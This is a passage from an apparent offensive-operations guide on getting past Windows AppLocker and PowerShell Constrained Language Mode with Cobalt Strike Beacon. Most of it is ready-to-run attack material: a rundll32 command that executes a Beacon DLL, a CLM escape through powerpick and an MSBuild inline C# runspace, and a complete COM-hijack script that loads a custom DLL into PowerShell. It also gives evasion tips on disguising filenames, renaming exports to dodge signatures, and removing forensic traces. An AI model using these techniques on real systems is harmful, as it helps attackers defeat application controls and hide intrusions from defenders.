EnforcementModeunder the Dll subkey):Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2\Dll" - Execute a Beacon DLL payload via
rundll32using theStartWexport:C:\Windows\System32\rundll32.exe http_x64.dll,StartW
OPSEC
rundll32loading a DLL from a user-writable path is a well-known detection signal — pair with a legitimate-looking filename and path.- Beacon DLL exports (
StartW,DllMain) can be renamed in the Artifact Kit undersrc-main/dllmain.defto avoid signature matches.
19.6 Constrained Language Mode
When AppLocker is active, PowerShell automatically drops from FullLanguage to ConstrainedLanguage mode. This blocks access to most .NET APIs, prevents Add-Type with arbitrary C#, and restricts New-Object to a limited set of approved types. Direct API invocation via [System.Console]::WriteLine() and similar patterns will fail.
Methodology
- Verify language mode restrictions:
$ExecutionContext.SessionState.LanguageMode - Escape CLM using an unmanaged PowerShell runspace (Beacon's
powerpickdoes this automatically):powerpick $ExecutionContext.SessionState.LanguageMode - Escape CLM via MSBuild by creating a PowerShell runspace in inline C#:
using (var runspace = RunspaceFactory.CreateRunspace()) { runspace.Open(); using (var posh = PowerShell.Create()) { posh.Runspace = runspace; posh.AddScript("$ExecutionContext.SessionState.LanguageMode"); var results = posh.Invoke(); Console.WriteLine(string.Join(Environment.NewLine, results.Select(r => r.ToString()).ToArray())); } } - Abuse COM objects that remain available under CLM — register a custom COM class pointing to a DLL:
[System.Guid]::NewGuid() New-Item -Path 'HKCU:Software\Classes\CLSID' -Name '{GUID}' New-Item -Path 'HKCU:Software\Classes\CLSID\{GUID}' -Name 'InprocServer32' -Value 'C:\Users\user\bypass.dll' New-ItemProperty -Path 'HKCU:Software\Classes\CLSID\{GUID}\InprocServer32' -Name 'ThreadingModel' -Value 'Both' New-Item -Path 'HKCU:Software\Classes' -Name 'AppLocker.Bypass' -Value 'AppLocker Bypass' New-Item -Path 'HKCU:Software\Classes\AppLocker.Bypass' -Name 'CLSID' -Value '{GUID}' - Instantiate the custom COM object to load the DLL into the PowerShell process:
New-Object -ComObject AppLocker.Bypass
19.6.1 Complete COM CLM Bypass Script
- Full COM object registration and instantiation to escape CLM:
# Generate a GUID for the COM class $guid = [System.Guid]::NewGuid() # Register the COM class in HKCU pointing to a custom DLL New-Item -Path 'HKCU:Software\Classes\CLSID' -Name "{$guid}" New-Item -Path "HKCU:Software\Classes\CLSID\{$guid}" -Name 'InprocServer32' -Value 'C:\Users\user\bypass.dll' New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{$guid}\InprocServer32" -Name 'ThreadingModel' -Value 'Both' # Create a human-readable ProgID mapped to the CLSID New-Item -Path 'HKCU:Software\Classes' -Name 'AppLocker.Bypass' -Value 'AppLocker Bypass' New-Item -Path 'HKCU:Software\Classes\AppLocker.Bypass' -Name 'CLSID' -Value "{$guid}" # Instantiate — loads the DLL into the PowerShell process New-Object -ComObject AppLocker.Bypass # Cleanup Remove-Item -Path "HKCU:Software\Classes\CLSID\{$guid}" -Recurse Remove-Item -Path 'HKCU:Software\Classes\AppLocker.Bypass' -Recurse
OPSEC
- COM object registration writes to
HKCU\Software\Classes\CLSID— these keys persist and are visible to forensic analysis. Clean up after use. powerpickspawns an unmanaged runspace inside the Beacon process, avoidingpowershell.exeentirely — preferred over MSBuild for stealth.- The custom COM DLL must export at least one function; use
DllMainwithDLL_PROCESS_ATTACHto trigger execution on load.